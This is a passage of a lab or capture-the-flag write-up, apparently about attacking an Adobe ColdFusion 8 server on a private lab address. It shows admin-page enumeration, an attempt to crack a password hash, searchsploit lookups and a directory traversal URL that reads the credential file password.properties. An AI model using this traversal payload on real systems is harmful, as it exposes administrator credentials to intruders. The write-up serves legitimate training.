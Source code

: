 Navigating to `http://10.10.10.11:8500` reveals the **ColdFusion web interface**:

![[web_port_8500.png]]

Deeper exploration shows the `CFIDE` directory:

![[web_8500_CFIDE.png]]

Key findings:
- The **administrator** directory is exposed  
- Pages use the `.cfm` extension (ColdFusion Markup)

![[web_8500_CFIDE_administrator.png]]

Testing authentication with random credentials shows encrypted values in the textbox: 

![[web_password_encrypted.png]]  

The encrypted values might represent a hash. We can reveal them by changing the HTML input type from `password` to `text` in the inspection view, allowing us to see the stored password hash:

![[inspection_password_to_type.png]]  

This hash is not recognized by CrackStation, and after several attempts with Hashcat and John, it does not appear to correspond to a valid password.

---
## 3. Exploitation

### 3.1 Directory Traversal / LFI

Search for ColdFusion vulnerabilities:

```bash
searchsploit adobe coldfusion
```

![[searchsploit_coldfusion.png]]

The most promising is a **Directory Traversal** exploit:

```bash
searchsploit -x multiple/remote/14641.py
```

![[searchsploit_download_sploit.png]]

The vulnerability describes an LFI in the following path:

```bash
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en 
```

![[web_port_8500_CFIDE_administrator_enter.png]]
